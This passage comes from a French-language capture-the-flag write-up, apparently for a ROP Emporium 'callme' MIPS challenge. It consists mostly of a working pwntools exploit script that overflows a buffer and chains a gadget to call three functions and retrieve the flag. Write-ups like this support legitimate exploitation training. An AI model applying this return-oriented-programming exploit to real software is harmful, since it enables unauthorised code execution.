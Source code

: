 La structuee est régulière et se prète à une boucle de type

Pour chaque call_xxx parmis [call_one, call_two, call_three]
    . . .



## Exploitation

### Script python

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('callme_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

gs='''
b *pwnme+204
c
'''

# Gadgets
# 0x00400bb0 : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ;
g_pop_t9a2a1a0 = 0x00400bb0

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


callme_one = elf.plt["callme_one"]
callme_two = elf.plt["callme_two"]
callme_three = elf.plt["callme_three"]

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

offset=0x24

PL=b"A"*offset
for adrcall in [callme_one, callme_two, callme_three ]:
    PL+=p32(g_pop_t9a2a1a0)    # Super gadget
    PL+=p32(0)                 # junk
    PL+=p32(adrcall)           # t9
    PL+=p32(0xd00df00d)        # a2
    PL+=p32(0xcafebabe)        # a1
    PL+=p32(0xdeadbeef)        # a0

io.recvuntil(b"> ")

io.sendline(PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```